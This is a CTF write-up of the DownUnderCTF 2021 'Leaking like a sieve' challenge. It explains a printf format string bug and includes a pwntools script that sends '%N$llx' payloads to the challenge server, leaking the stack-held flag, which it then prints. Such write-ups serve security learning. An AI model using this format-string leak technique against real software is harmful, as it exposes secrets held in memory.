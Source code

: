 # Leaking like a sieve

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/Images/1.png)

Another easy pwn challenge of DownUnderCTF 2021

Check the ELF

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/Images/2.png)

Use IDA to reverse

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/Images/3.png)

The program read the flag in `flag.txt` and store it in s buffer, locate at rsp + 0x30

We see that the `printf(format)` function will cause a format string error, so we can leak any value at any address. In this challange, we need to leak the value of the flag at buffer s.

There are many ways to leak flags in this challange. 

  - We can leak the stack base at old_ebp of main function then compute the address of the array s and use %s to leak flag. 

  - Or use the second way that I did, the easier way is to leak each block of 8 characters of the flag. Use payload `%X$llx`, where X is offset. Our array S is located at rsp + 0x30, each offset is 8 bytes long, so let the offset of s be 6, plus 6 because the first 7 parameters in the 64-bit architecture are stored in registers.

The maximum length of flag is 32, so we need leak 4 times, each times 8 charracter, because the %x format will respone value at hex, so we need to use function `byte.fromhex()` to convert it to char.

File [solve.py](/2021/DownUnderCTF2021/Leaking_like_a_sieve/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31918)
flag = ''
s.sendlineafter(b'?\n', b'%12$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recv(16).decode('utf-8')).decode('utf-8')[::-1]
s.sendlineafter(b'?\n', b'%13$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recv(16).decode('utf-8')).decode('utf-8')[::-1]
s.sendlineafter(b'?\n', b'%14$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recv(16).decode('utf-8')).decode('utf-8')[::-1]
s.sendlineafter(b'?\n', b'%15$llx')
s.recvuntil(b', ')
flag += bytes.fromhex(s.recvline().strip().decode('utf-8')).decode('utf-8')[::-1]
s.close()
print(flag)
```

![](/2021/DownUnderCTF2021/Leaking_like_a_sieve/Images/4.png)

`flag: DUCTF{f0rm4t_5p3c1f13r_m3dsg!}`



